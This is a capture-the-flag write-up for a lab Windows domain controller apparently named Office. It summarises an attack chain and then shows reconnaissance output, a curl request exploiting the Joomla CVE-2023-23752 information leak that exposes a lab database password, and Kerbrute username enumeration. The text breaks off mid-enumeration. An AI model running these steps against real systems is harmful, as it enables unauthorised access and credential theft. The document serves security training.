

## Summary

The box starts with a found `username` on the main page.  After some `directory busting` the `Joomla Login Panel` appears. Making use of `CVE-2023-23752` which is a `information leak` in `Joombla` shows up a `password`. From there on `Kerbrute` can be used for `user enumeration` in combination with a `custom wordlist` and with `SecLists`. `SecLists` therefore is required to find a valid username to access `SMB`. On the `SMB share` which can be accessed by `dwolfe` a `.pcap file`  can be found which contains `Kerberos information` to forge a `Kerberos ticket` which than can be cracked using `Hashcat` and `rockyou`. The newly found password can be reused on the `Joomla Login Panel` to gain access as `administrator` and then with a modified `error.php` template, access to the system with a `reverse shell` can be achieved. From the `web_account` user a simple `privilege escalation` to `tstark` by using his password in combination with `RunasCs` is the next logical step. The user `tstark` holds the `user flag`. From there on an intended and a unintended way exist. The intended way makes use out of a `Libre Office 5` installation and a malicious `macro file` which can be placed within `C:\xampp\htdocs\intern\applications` and gets opened from a `scheduled task` every few minutes. In order to get the macros to run, the privileges of `tstark` to modify the `Registry` needs to be abused to enable the `execution` of `macros`. The unintended way skips this section and makes use of the `MySQL installation`. With `port forwarding` the port `3306/TCP` the exploit within `Metasploit` can be used to gain access through `MySQL` and for `privilege escalation` to `administrator`, `SharpEfsPotato` comes into play. Besides the unintended way the next step after `tstark` is the privilege escalation to `ppotts` with the `malicious macro document`. From there on a dump of `DPAPI` is the way to get access to `hhogan` which has the ability to edit `Group Policy Objects (GPO)`. By using `pyGPOAbuse` it is possible to create a `new admin user` and clear the box.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
	- [Port Scanning](#Port-Scanning)
	- [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
	- [Directory Busting](#Directory-Busting)
	- [Enum4linux-ng](#Enum4linux-ng)
- [Joomla Information Leak (CVE-2023-23752)](#Joomla-Information-Leak-CVE-2023-23752)
- [User Enumeration](#User-Enumeration)
- [SMB Enumeration](#SMB-Enumeration)
- [RID Brute Forcing](#RID-Brute-Forcing)
- [Password Reuse](#Password-Reuse)
- [Extracting Hashes from .pcap File](#Extracting-Hashes-from-pcap-File)
- [Cracking the Hash](#Cracking-the-Hash)
- [Access to Joomla](#Access-to-Joomla)
- [Foothold](#Foothold)
- [Persistence](#Persistence)
- [Enumeration](#Enumeration)
- [Privilege Escalation to tstark](#Privilege-Escalation-to-tstark)
- [Pivoting](#Pivoting)
- [user.txt](#user-txt)
- [More Pivoting](#More-Pivoting)
- [Seatbelt](#Seatbelt)
- [BloodHound](#BloodHound)
	- [AccessChk](#AccessChk)
- [Privilege Escalation to ppotts (Intended)](#Privilege-Escalation-to-ppotts-Intended)
- [Privilege Escalation to hhogan](#Privilege-Escalation-to-hhogan)
- [DPAPI Dump](#DPAPI-Dump)
- [Privilege Escalation to administrator (Intended)](#Privilege-Escalation-to-administrator-Intended)
- [Privilege Escalation to ppotts (Unintended)](#Privilege-Escalation-to-ppotts-Unintended)
- [Privilege Escalation to administrator (Unintended)](#Privilege-Escalation-to-administrator-Unintended)
- [root.txt](#root-txt)
- [Post Exploitation](#Post-Exploitation)

## Reconnaissance

### Port Scanning

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.241.7
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-17 14:02 EST
Nmap scan report for 10.129.241.7
Host is up (0.13s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-18 03:02:38Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
443/tcp  open  ssl/http      Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| tls-alpn: 
|_  http/1.1
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
Service Info: Hosts: DC, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-18T03:03:22
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m15s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.83 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.241.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-17 14:05 EST
Nmap scan report for office.htb (10.129.241.7)
Host is up (0.16s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-18 03:08:52Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
443/tcp   open  https         Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
56342/tcp open  msrpc         Microsoft Windows RPC
60734/tcp open  msrpc         Microsoft Windows RPC
60754/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-02-18T03:11:38
|_  start_date: N/A
|_clock-skew: 7h59m08s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 532.16 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.241.7
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-17 14:30 EST
Nmap scan report for office.htb (10.129.241.7)
Host is up (0.045s latency).
Not shown: 996 open|filtered udp ports (no-response)
PORT    STATE SERVICE      VERSION
53/udp  open  domain       Simple DNS Plus
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-02-18 03:29:39Z)
123/udp open  ntp          NTP v3
389/udp open  ldap         Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5073.61 seconds
```

### Enumeration of Port 80/TCP

- [http://10.129.241.7/](http://10.129.241.7/)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://10.129.241.7/
http://10.129.241.7/ [200 OK] Apache[2.4.56], Cookies[3815f63d17a9109b26eb1b8c114159ac], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28], HttpOnly[3815f63d17a9109b26eb1b8c114159ac], IP[10.129.241.7], MetaGenerator[Joomla! - Open Source Content Management], OpenSSL[1.1.1t], PHP[8.0.28], PasswordField[password], PoweredBy[the], Script[application/json,application/ld+json,module], Title[Home], UncommonHeaders[referrer-policy,cross-origin-opener-policy], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/8.0.28]
```

On the page we found our first `username` which we used later on.



| Username |
| ---- |
| Tony Stark |

### Directory Busting

```c
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://10.129.241.7/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_10.129.241.7/__24-02-17_14-04-04.txt

Target: http://10.129.241.7/

[14:04:04] Starting: 
[14:04:05] 403 -  302B  - /%C0%AE%C0%AE%C0%AF                               
[14:04:05] 403 -  302B  - /%3f/                                             
[14:04:05] 403 -  302B  - /%ff                                              
[14:04:07] 403 -  302B  - /.ht_wsr.txt                                      
[14:04:07] 403 -  302B  - /.htaccess.bak1                                   
[14:04:07] 403 -  302B  - /.htaccess.sample                                 
[14:04:07] 403 -  302B  - /.htaccess.save                                   
[14:04:07] 403 -  302B  - /.htaccess.orig
[14:04:07] 403 -  302B  - /.htaccess_orig
[14:04:07] 403 -  302B  - /.htaccess_sc
[14:04:07] 403 -  302B  - /.htaccess_extra                                  
[14:04:07] 403 -  302B  - /.htaccessOLD
[14:04:07] 403 -  302B  - /.htaccessBAK
[14:04:07] 403 -  302B  - /.htaccessOLD2                                    
[14:04:07] 403 -  302B  - /.htm                                             
[14:04:07] 403 -  302B  - /.html                                            
[14:04:07] 403 -  302B  - /.httr-oauth                                      
[14:04:07] 403 -  302B  - /.htpasswd_test                                   
[14:04:07] 403 -  302B  - /.htpasswds                                       
[14:04:16] 301 -  345B  - /administrator  ->  http://10.129.241.7/administrator/
[14:04:16] 200 -   31B  - /administrator/cache/                             
[14:04:16] 200 -    1KB - /administrator/includes/                          
[14:04:16] 301 -  350B  - /administrator/logs  ->  http://10.129.241.7/administrator/logs/
[14:04:16] 200 -   31B  - /administrator/logs/                              
[14:04:16] 200 -   12KB - /administrator/index.php                          
[14:04:16] 200 -   12KB - /administrator/                                   
[14:04:17] 301 -  335B  - /api  ->  http://10.129.241.7/api/                
[14:04:18] 404 -   54B  - /api/                                             
[14:04:20] 301 -  337B  - /cache  ->  http://10.129.241.7/cache/            
[14:04:20] 200 -   31B  - /cache/                                           
[14:04:20] 403 -  302B  - /cgi-bin/                                         
[14:04:20] 200 -    2KB - /cgi-bin/printenv.pl                              
[14:04:21] 200 -   31B  - /cli/                                             
[14:04:21] 301 -  342B  - /components  ->  http://10.129.241.7/components/  
[14:04:21] 200 -   31B  - /components/                                      
[14:04:22] 200 -    0B  - /configuration.php                                
[14:04:27] 503 -  402B  - /examples/                                        
[14:04:27] 503 -  402B  - /examples/jsp/snp/snoop.jsp
[14:04:28] 503 -  402B  - /examples/jsp/index.html                          
[14:04:28] 503 -  402B  - /examples/servlet/SnoopServlet                    
[14:04:28] 503 -  402B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/ 
[14:04:28] 503 -  402B  - /examples
[14:04:28] 503 -  402B  - /examples/websocket/index.xhtml                   
[14:04:28] 503 -  402B  - /examples/servlets/index.html                     
[14:04:28] 503 -  402B  - /examples/servlets/servlet/RequestHeaderExample
[14:04:28] 503 -  402B  - /examples/servlets/servlet/CookieExample
[14:04:28] 200 -    7KB - /htaccess.txt                                     
[14:04:29] 200 -   31B  - /images/                                          
[14:04:29] 301 -  338B  - /images  ->  http://10.129.241.7/images/          
[14:04:29] 301 -  340B  - /includes  ->  http://10.129.241.7/includes/      
[14:04:29] 200 -   31B  - /includes/                                        
[14:04:29] 403 -  302B  - /index.php::$DATA                                 
[14:04:30] 404 -    4KB - /index.pHp                                        
[14:04:30] 404 -    4KB - /index.php/login/                                 
[14:04:30] 200 -   24KB - /index.php                                        
[14:04:30] 200 -   24KB - /index.php.                                       
[14:04:31] 200 -   31B  - /layouts/                                         
[14:04:31] 301 -  340B  - /language  ->  http://10.129.241.7/language/      
[14:04:31] 403 -  302B  - /libraries                                        
[14:04:31] 403 -  302B  - /libraries/phpmailer/
[14:04:31] 403 -  302B  - /libraries/
[14:04:31] 403 -  302B  - /libraries/tinymce                                
[14:04:31] 403 -  302B  - /libraries/tiny_mce/                              
[14:04:31] 200 -   18KB - /LICENSE.txt                                      
[14:04:31] 403 -  302B  - /libraries/tiny_mce                               
[14:04:31] 200 -   18KB - /license.txt                                      
[14:04:31] 403 -  302B  - /libraries/tinymce/
[14:04:34] 200 -   31B  - /media/                                           
[14:04:34] 301 -  337B  - /media  ->  http://10.129.241.7/media/            
[14:04:35] 301 -  339B  - /modules  ->  http://10.129.241.7/modules/        
[14:04:35] 200 -   31B  - /modules/                                         
[14:04:39] 403 -  302B  - /phpmyadmin                                       
[14:04:39] 403 -  302B  - /phpmyadmin/doc/html/index.html                   
[14:04:39] 403 -  302B  - /phpmyadmin/
[14:04:39] 403 -  302B  - /phpmyadmin/docs/html/index.html                  
[14:04:39] 403 -  302B  - /phpmyadmin/ChangeLog
[14:04:39] 403 -  302B  - /phpmyadmin/phpmyadmin/index.php                  
[14:04:39] 403 -  302B  - /phpmyadmin/index.php                             
[14:04:39] 403 -  302B  - /phpmyadmin/README                                
[14:04:39] 403 -  302B  - /phpmyadmin/scripts/setup.php                     
[14:04:40] 301 -  339B  - /plugins  ->  http://10.129.241.7/plugins/        
[14:04:40] 200 -   31B  - /plugins/                                         
[14:04:42] 200 -    5KB - /README.TXT                                       
[14:04:42] 200 -    5KB - /Readme.txt
[14:04:42] 200 -    5KB - /readme.txt                                       
[14:04:42] 200 -    5KB - /README.txt                                       
[14:04:42] 200 -    5KB - /ReadMe.txt                                       
[14:04:43] 200 -  764B  - /robots.txt                                       
[14:04:44] 403 -  421B  - /server-info                                      
[14:04:44] 403 -  421B  - /server-status/
[14:04:44] 403 -  421B  - /server-status                                    
[14:04:49] 301 -  341B  - /templates  ->  http://10.129.241.7/templates/    
[14:04:49] 200 -   31B  - /templates/                                       
[14:04:49] 200 -   31B  - /templates/index.html
[14:04:49] 200 -    0B  - /templates/system/                                
[14:04:50] 200 -   31B  - /tmp/                                             
[14:04:50] 301 -  335B  - /tmp  ->  http://10.129.241.7/tmp/                
[14:04:50] 301 -  335B  - /TMP  ->  http://10.129.241.7/TMP/                
[14:04:50] 403 -  302B  - /Trace.axd::$DATA                                 
[14:04:54] 200 -    3KB - /web.config.txt                                   
[14:04:54] 403 -  302B  - /web.config::$DATA                                
[14:04:54] 403 -  421B  - /webalizer                                        
[14:04:54] 403 -  421B  - /webalizer/                                       
                                                                             
Task Completed
```

- [http://10.129.241.7/administrator/](http://10.129.241.7/administrator/)
- [http://10.129.241.7/robots.txt](http://10.129.241.7/robots.txt)

```c
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

### Enum4linux-ng

```c
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.241.7
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.241.7
[*] Username ......... ''
[*] Random Username .. 'yakdhyfk'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =====================================
|    Listener Scan on 10.129.241.7    |
 =====================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ====================================================
|    Domain Information via LDAP for 10.129.241.7    |
 ====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: office.htb

 ===========================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.241.7    |
 ===========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 =========================================
|    SMB Dialect Check on 10.129.241.7    |
 =========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                         
  SMB 1.0: false                                                                                                                                                                                                                            
  SMB 2.02: true                                                                                                                                                                                                                            
  SMB 2.1: true                                                                                                                                                                                                                             
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 ===========================================================
|    Domain Information via SMB session for 10.129.241.7    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC                                                                                                                                                                                                                   
NetBIOS domain name: OFFICE                                                                                                                                                                                                                 
DNS domain: office.htb                                                                                                                                                                                                                      
FQDN: DC.office.htb                                                                                                                                                                                                                         
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: OFFICE                                                                                                                                                                                                                      

 =========================================
|    RPC Session Check on 10.129.241.7    |
 =========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 ===============================================
|    OS Information via RPC for 10.129.241.7    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: ''                                                                                                                                                                                                                              
OS build: '20348'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 7.00 seconds
```

At this point I added `office.htb` and `DC.office.htb` to my `/etc/hosts` file.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.241.7    office.htb
10.129.241.7    DC.office.htb
```

## Joomla Information Leak (CVE-2023-23752)

- [https://github.com/Acceis/exploit-CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752)

We copied the `URL` out of the exploit and in the output we found a `password`.

- [http://office.htb/api/index.php/v1/config/application?public=true](http://office.htb/api/index.php/v1/config/application?public=true)

```c
┌──(kali㉿kali)-[/media/…/Machines/Office/files/exploit-CVE-2023-23752]
└─$ curl http://office.htb/api/index.php/v1/config/application?public=true
{"links":{"self":"http:\/\/office.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/office.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/office.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Holography Industries","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"root","id":224}},{"type":"application","id":"224","attributes":{"password":"H0lOgrams4reTakIng0Ver754!","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla_db","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"if2tx_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

| Password |
| ---- |
| H0lOgrams4reTakIng0Ver754! |

## User Enumeration

Now we made use of our earlier found username and created some possible other usernames of it.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Office/files]
└─$ cat new_usernames.txt 
tony
tony.stark
tstark
stark
tony.stark@office.htb
tstark@office.htb
```

- [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy)

```c
┌──(kali㉿kali)-[~/opt/wordlists/username-anarchy]
└─$ ruby username-anarchy -f first,first.last,last,flast -i /media/sf_infosec/InfoSec/HTB/Machines/Office/files/usernames.txt > /media/sf_infosec/InfoSec/HTB/Machines/Office/files/new_usernames.txt
```

For the `user enumeration` we used `Kerbrute`.

```c
┌──(kali㉿kali)-[~/opt/05_password_attacks/kerbrute]
└─$ ./kerbrute userenum --dc DC.office.htb -d office.htb /media/sf_infosec/InfoSec/HTB/Machines/Office/files/new_usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/17/24 - Ronnie Flathers @ropnop

2024/02/17 14:25:50 >  Using KDC(s):
2024/02/17 14:25:50 >   DC.office.htb:88

2024/02/17 14:25:50 >  [+] VALID USERNAME:       tstark@office.htb
2024/02/17 14:25:50 >  [+] VALID USERNAME:       tstark@office.htb
2024/02/17 14:25:50 >  Done! Tested 6 usernames (2 valid) in 0.134 seconds
```

| Username |
| --- |
| tstark@office.htb |

We ran another attempt with `Seclists` and found even more usernames.

```c
┌──(kali㉿kali)-[~/opt/05_password_attacks/kerbrute]
└─$ ./kerbrute userenum --dc dc.office.htb -d office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
